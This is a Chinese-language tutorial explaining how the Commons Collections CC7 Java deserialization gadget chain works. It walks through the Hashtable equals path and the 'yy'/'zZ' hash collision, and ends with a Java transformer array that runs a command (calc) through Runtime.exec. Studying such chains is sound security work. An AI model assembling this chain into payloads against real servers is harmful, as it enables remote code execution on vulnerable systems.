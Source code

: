 如果 key 是一个 TiedMapEntry，那么会进入 TiedMapEntry.hashCode()，
而 TiedMapEntry.hashCode() 会调用 getValue() → LazyMap.get() → transformer 链执行。
这就是 CC7 的入口点。

但是也可以通过下面的e.key.equals(key)来触发，
CC6就是通过的Hashcode，
所以这条链我们就不用Hashcode了，

在这里的for循环中调用了equals，
这个for循环时CC7触发的关键所在，它的作用是在反序列化时检查插入的key是否和已存在的key重复。


<img width="1086" height="171" alt="image" src="https://github.com/user-attachments/assets/b5f28595-9561-4983-bd3c-cbbde376f38b" />

当e.hash == hash 时，就会去调用e.key.equals(key)，
这一步就是核心，因为e.key是我们控制的对象(比如TiedMapEntry)，它的equals会调用LazyMap.get() --> Transformer链

如何让这个e.hash == hash 条件成立？

也就是说必须要保证两个key的hash值相同，否则不会走equals()

那么在Java中刚好又一个hash冲突的案例，
yy和zZ，这两个字符串的hash就是一样的，

那就构造这两个 yy和zZ

最终Payload


<img width="1548" height="1473" alt="image" src="https://github.com/user-attachments/assets/5854d39d-e98a-4af5-9b38-d4ec7381f0ee" />

首先第一行就是new一个空的ChainedTransfomer当作占位，避免提前触发利用链，
然后就是构造transformer数组执行calc。

之后创建两个Hashmap，
用之前的占位装饰两个LazyMap，分别put进去yy和zZ，
那么现在就满足了for循环的条件，e.hash == hash，因为yy和zZ是java里经典的hash冲突对，

之后分别把两个LazyMap当作Hashtable的key，
因为这两个key的hash相同，Hashtable就会就会进入到e.key.equals(key)


<img width="1158" height="177" alt="image" src="https://github.com/user-attachments/assets/12234661-2f71-4d81-a361-3ac6de1a09d2" />

这样就调用执行了equals方法，
然后将yy进行remove删除操作，以免影响调用链。
最后反射，将ChainedTransformer中的占位，替换成真正的transformer，也就是前面构造的transformer数组，用来执行命令的。

        final Transformer transformerChain = new ChainedTransformer(new Transformer[0]);
        final Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",
                        new Class[]{String.class, Class[].class},
                        new Object[]{"getRuntime", new Class[0]}),
                new InvokerTransformer("invoke",
                        new Class[]{Object.class, Object[].class},
                        new Object[]{null, new Object[0]}),
                new InvokerTransformer("exec",
                        new Class[]{String.class},
                        new String[]{"calc"}),
                new ConstantTransformer(1)};
